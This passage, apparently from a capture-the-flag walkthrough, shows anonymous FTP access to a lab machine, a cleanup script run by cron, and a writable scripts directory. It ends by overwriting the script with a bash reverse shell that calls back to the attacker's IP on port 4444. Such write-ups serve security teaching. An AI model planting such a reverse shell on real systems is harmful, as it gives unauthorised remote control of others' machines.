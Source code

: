 ~~~
ftp> mget *
mget clean.sh? y
227 Entering Passive Mode (10,10,252,179,25,190).
150 Opening BINARY mode data connection for clean.sh (314 bytes).
226 Transfer complete.
314 bytes received in 0.00302 secs (103.97 Kbytes/sec)
mget removed_files.log? y
227 Entering Passive Mode (10,10,252,179,164,177).
150 Opening BINARY mode data connection for removed_files.log (172 bytes).
226 Transfer complete.
172 bytes received in 9.3e-05 secs (1849.46 Kbytes/sec)
mget to_do.txt? y
227 Entering Passive Mode (10,10,252,179,107,8).
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.0681 secs (1.00 Kbytes/sec)
ftp> 221 Goodbye.
~~~

Now, let's see what the files are:

```bash
$ cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
```

Several things to note here:
1. The log file contains several lines. It's probably because the script ran several times (likely cron job, every minute or so)
2. The `scripts` directory is writeable.

Let's replace the script with a reverse shell:

```bash
$ cat clean.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.8.50.72/4444 0>&1
```
